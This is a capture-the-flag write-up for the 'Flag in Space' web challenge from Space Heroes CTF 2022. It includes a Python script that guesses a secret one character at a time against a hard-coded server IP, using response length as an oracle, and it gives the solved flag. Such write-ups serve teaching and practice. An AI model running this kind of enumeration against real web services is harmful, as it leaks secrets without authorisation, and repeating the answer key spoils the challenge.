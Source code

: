 ```yaml
---
name: Flag in Space (2022)
event: Space Heroes CTF 2022
category: Web
description: Writeup for Flag in Space (Web) - Space Heroes CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Flag in Space

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/8oycV0Bsb5k/0.jpg)](https://youtu.be/8oycV0Bsb5k "Space Heroes CTF 2022: Flag in Space")

## Solution

```py
from pwn import *
import requests
import string

context.log_level = 'debug'
url = 'http://172.105.154.14/?flag=shctf{'

response = requests.get(url + '\x00')  # Initial request
correct_response = len(response.text)
info('intitial response length: %d', correct_response)

# Loop until we see the flag
while '}' not in url:
    # Loop possible chars (string.printable)
    for char in '{_}' + string.ascii_lowercase + string.digits:
        response = requests.get(url + char)
        # If this is the correct char, update
        if len(response.text) > correct_response:
            correct_response = len(response.text)
            url = url + char
            info(url)
            break

# Flag plz
warn(url)
```

Flag: `shctf{2_explor3_fronti3r}`
